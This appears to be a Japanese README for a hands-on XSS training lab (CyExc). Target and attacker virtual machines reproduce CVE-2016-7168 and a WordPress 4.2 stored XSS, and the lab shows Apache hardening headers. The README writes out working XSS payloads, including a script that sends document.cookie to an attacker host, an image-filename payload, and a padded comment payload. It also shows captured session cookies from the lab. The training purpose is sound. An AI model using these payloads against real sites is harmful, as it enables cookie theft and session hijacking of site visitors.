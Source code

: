 # Cross-site Scripting脆弱性を利用した演習について
## Motivation
攻撃者 (Attacker) がクロスサイトスクリプティング（XSS）の脆弱性を持った攻撃対象のウェブサイト (Target) に不正な表示内容生成処理を行うと、動的WEBページに任意のスクリプトが紛れ込みTarget OSのブラウザー環境で紛れ込んだスクリプトが実行される。XSSによる攻撃や情報漏洩が、現実社会においてどのように発生するかを理解することは重要である。

## 学習目標
CyExcが提供する本演習では、学習者に対してのXSSの脅威を理解することを目的する。本演習では、XSSによるクッキー情報の搾取やApache2によるXSSプロテクションの確認を行う。また、WordPress version4.2を用いてCVE-2016-7168とWordPress 4.2 Stored XSSの事象を再現し、XSSによる情報漏洩の攻撃手法を学ぶ。VagrantにTargetとAttackerの2つのゲストOSを構築した環境を提供する。proxyサーバ（Apache2）は攻撃対象のウェブサーバ内に構築した。

クッキー取得やWEB ShellのPHPコードは倫理の観点から、ここでの公開はしないこととする。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/block.png" title="Ex3演習環境構成図">

## Prerequisite
* Vagrant
  * Plugin: landrush, vagrant-vbguest

## Installation　　
* Vagrant　　　
1. $ vagrant up --provision　　　   
2. $ vagrant landrush ls　　　   
ゲストOSのIPアドレスとhostnameが以下のようにマッチしていない場合は、vagrant destroyを行う必要がある。　　　   
```
target.cyexc-target            192.168.33.10
10.33.168.192.in-addr.arpa     target.cyexc-target
attacker.cyexc-attacker        192.168.33.20
20.33.168.192.in-addr.arpa     attacker.cyexc-attacker
````
3. target側のOS起動
$ vagrant ssh target  <br>
	i. $ cd target/　　　    <br>
	ii.$ sudo docker-compose up --build  <br>
4. attacker側のOS起動
$ vagrant ssh attacker  <br>
	i. $ cd attacker/　　　      <br>
	ii.$ sudo docker-compose up --build  <br>

## シナリオ1
Target OSに設置されたWEBサーバは入力された文字列を表示するサイトを公開している。Attacker OSからこのWEBサイトにアクセスし、不正な入力を含むリクエストを送信する。
攻撃対象のウェブサイトのクッキー情報が搾取されることを確認する。

### Steps
1. ht&#8203tp://target.cyexc-target:8000/php/xss.phpにアクセスする。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/xss.png" title="Screenshot1">
2. `"><script>alert(document.cookie)</script><!--`を入力する。
クッキー情報がポップアップ表示される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie1.png" title="Screenshot2">
3. `"><script>window.location='http://attacker.cyexc-attacker:8081/cookie.php?c='+document.cookie;</script><!--`を入力する。
Attacker OSのクッキー情報を搾取するPHPコード（cookie.php）が実行される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie2.png" title="Screenshot3">

搾取した攻撃対象のウェブサイトのクッキー情報はこちら＠[index.html](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/index.html)

### 脅威
Attackerが不正なスクリプトを攻撃対象のウェブサイトに埋め込むことで、攻撃対象のウェブサイトを訪れたTargetのクッキー情報を搾取できる。クッキーはウェブサイト側が訪問者を識別番号であり、クッキーを用いてアカウント情報などを閲覧することができる。XSSはセッションハイジャックの前段階攻撃となる。
また、セッションハイジャック以外にも、フォームの入力内容の窃取、ユーザを外部の悪質なページにリダイレクトさせるなどの行為がXSSの脅威となる。

### curlコマンド
HTTPアクセスしてコンテンツを取得することができる。-Iオプションを使うと、HTTPリクエストのレスポンスヘッダを取得することができる。
```
Usage: curl [options...] <url>
Options: (H) means HTTP/HTTPS only, (F) means FTP only
```
* 例）www.google.comのHTTPレスポンスヘッダを取得
```
vagrant@attacker:~$ curl -I http://www.google.com
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Referrer-Policy: no-referrer
Location: http://www.google.co.jp/?gfe_rd=cr&dcr=0&ei=2Vh0WvGGCO7d8Af_l5LoCA
Content-Length: 271
Date: Fri, 02 Feb 2018 12:26:01 GMT
```

### HTTPヘッダー
アプリケーションですべてのXSS欠陥を防ぐことは困難なため、OWASPはウェブサイトでXSS欠陥の影響を軽減するためのHTTPヘッダーの設定を推奨している。どのような効果があるか、curlコマンドを使って確認する。

#### HttpOnly Cookieフラグの使用
このフラグを設定すると、クッキーヘッダ以外から読み取ることができなくなり、JavaScriptからの参照を防ぐことができる。

#### X-XSS-Protectionレスポンスヘッダの使用
WEBブラウザに装備されているXSSフィルタ機能を有効にすることができる。

#### Apache2の設定方法
1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
2. apache2にmod_headersを追加する。
```
root@a4ff20247d20:~# a2enmod headers
root@a4ff20247d20:~# service apache2 restart
```
3. 再度1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
4. /etc/apache2/conf-available/security.confに以下の設定を追加する。
    * `Header set X-XSS-Protection "1; mode=block"`
    * `Header edit Set-Cookie ^(.*)$ $1;HttpOnly;Secure`

```
root@a4ff20247d20:/var/www/html# vi /etc/apache2/conf-available/security.conf
root@a4ff20247d20:/var/www/html# service apache2 restart
```

設定前
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:27:47 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Set-Cookie: PHPSESSID=ee9b5e67f350fe2de2ceec06e26684f1; path=/**
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

設定後
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:34:32 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Set-Cookie: PHPSESSID=17b07d99c8a5e7852286454dba8d115e; path=/;HttpOnly;Secure
Content-Type: text/html; charset=UTF-8
```

## シナリオ2
Target OSに設置されたWordPressサーバに不正な入力を含むリクエストを送信し、CVE-2016-7168とWordPress 4.2 Stored XSSの事象を確認する。

### CVE-2016-7168事象
CVE-2016-7168は、XSSコードが含まれている画像ファイル名におけるWordPressの重大なXSSの脆弱性である。

### Steps
1. Browse to http://target.cyexc-target:8000
2. ファイル名にXSSコードが含まれている画像をWordPress記事に添付する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/post.png" title="Screenshot4">
3. プレビュー画面に遷移する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/CVE-2016-7168.png" title="Screenshot5">

### WordPress 4.2 Stored XSS事象
WordPress 4.2 Stored XSSは、WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿することで、コメント欄を表示したTarget OSのブラウザ上で任意のJavaScriptを実行することができる。

### Steps
1. Browse to http://target.cyexc-target:8000
2. WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿する。
`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
64KB以上の文字列は下記のようなPythonスクリプトで作成した。
```
print 'A' * (64*1024 + 1)
```
確認ではWEB ShellコードをGETするXSSコード設置した。WordPressサーバに不正なスクリプトが設置される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/4_2_XSS.png" title="Screenshot6">

#### wordpressサーバでHTTP通信をキャプチャ
1. wordpressコンテナにログイン
```
vagrant@target:~/target/wordpress$ sudo docker-compose exec wordpress bash
```
2. ngrepを使用してHTTP通信をキャプチャ
```
root@64ff6b86f93b:/var/www/html# ngrep -W byline 'HTTP' -q > ngrep.log
```
3. wordpressコンテナをログアウト
4. wordpressコンテナのcontainer IDを調べる
```
vagrant@target:~/target/wordpress$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
64ff6b86f93b        mywp                "/usr/local/bin/dock…"   13 minutes ago      Up 13 minutes       0.0.0.0:8000->80/tcp   target_wordpress_1
5b396b4d2bd0        mysql:5.7           "docker-entrypoint.s…"   2 hours ago         Up 13 minutes       3306/tcp               target_db_1
```
5. 取得したngrepのログをTarget OSにコピー
```
vagrant@target:~/target/wordpress$ sudo docker cp 64ff6b86f93b:/var/www/html/ngrep.log .
```

### CVE-2016-7168の確認
* XSSコードが含まれている画像のアップロード
T 192.168.33.1:60465 -> 192.168.1.10:80 [AP]
GET /wp-content/uploads/2018/02/img-srca-onerroralertdocument.cookie-300x300.png HTTP/1.1
Host: target.cyexc-target:8000.

* XSSコードが含まれている画像ファイル名が動的WEBページに紛れ込んでいることがわかる。
T 192.168.33.1:60475 -> 192.168.1.10:80 [A]
POST /wp-admin/async-upload.php HTTP/1.1.
Host: target.cyexc-target:8000.
Content-Type: multipart/form-data; boundary=---------------------------119484861102225031902156995.
Cookie: wp-saving-post=4-check; wordpress_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Cc5f6ca4e502585ad989c59e1335e0a1c6e9fedf65fdb0795a4f862b31805c454; wp-settings-time-1=1517579032; wp-settings-1=editor%3Dtinymce%26libraryContent%3Dbrowse%26urlbutton%3Dpost; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Ca6730f416c68fb6d6713bf188f5d7b056bc2f8cabf3bb8b58e0c0ecccfd96bd6; PHPSESSID=62b5fe7e3928dd77f90bde1a505db58e.
Connection: keep-alive.
.
-----------------------------119484861102225031902156995.
Content-Disposition: form-data; name="name".
.
**<img src=a onerror=alert(document.cookie)>.png.**

取得したログはこちら＠[ngrep.log](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/ngrep2.log)


## References
* [Corss-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* [XSS対策チートシート](https://jpcertcc.github.io/OWASPdocuments/CheatSheets/XSSPrevention.html)
* [CVE-2016-7168](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168)
* [WordPress - Authenticated Stored Cross-Site Scripting via Image Filename](https://wpvulndb.com/vulnerabilities/8615)
* [WordPress 4.2 Stored XSS](https://klikki.fi/adv/wordpress2.html)
* [2015年JPCERT ログを活用した高度サイバー攻撃の早期発見と分析](https://www.jpcert.or.jp/research/APT-loganalysis_Presen_20151117.pdf)
* [Detecting Attacks on Web Applications from Log
Files](https://www.sans.org/reading-room/whitepapers/logging/detecting-attacks-web-applications-log-files-2074)
* [ngrep examples](https://github.com/jpr5/ngrep/blob/master/EXAMPLES.md)
